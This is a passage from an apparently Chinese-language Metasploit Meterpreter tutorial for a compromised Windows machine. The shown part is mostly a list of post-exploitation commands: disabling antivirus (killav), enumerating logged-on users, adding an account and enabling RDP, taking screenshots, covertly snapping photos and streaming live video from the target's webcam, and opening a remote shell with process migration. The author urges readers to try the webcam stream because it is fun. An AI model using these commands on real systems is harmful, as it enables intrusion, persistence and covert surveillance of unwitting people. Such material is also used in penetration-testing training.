 ### 10：关闭杀毒软件
命令：run killav



### 11：列举当前目标机有多少用户登录
命令：run post/windows/gather/enum_logged_on_users

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418228167-41638f94-cea9-4571-a6f9-98f0d9d3f888.png)



### 12：添加用户
①：run post/windows/manage/enable_rdp USERNAME=*** PASSWORD=******

②：run getgui -u example_username -p example_password



### 13：抓取目标机的屏幕截图
命令：

①：先输入load espia 加载插件 再输screengrab，会保存截图在root目 录下

②：输入 screenshot 效果同上

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595418234562-55c041d4-a850-4094-9938-15d2a3425123.png)

截取的图片

![](https://cdn.nlark.com/yuque/0/2020/jpeg/574026/1595418238134-8c20a9a8-49ae-4bc8-b7b0-1da3030c0c9e.jpeg)



### 14：webcam摄像头命令
①：查看目标机是否有摄像头：webcam_list

②：打开目标主机的摄像头拍一张照片：webcam_snap

③：打开目标主机的摄像头抓取视频（即直播）

指令：webcam_stream

该指令会返回一个url，在浏览器打开该地址即可观看



大家可以试一下这个命令，很好玩哟

### 15：进入目标机shell，获取目标主机的远程命令行
（如果出错，考虑是目标主机限制了cmd.exe的访问权，可以使用migrate注入到管理员用户进程中再尝试）

指令为：shell 结束指令为：exit



## 三：文件系统命令
常用指令如下
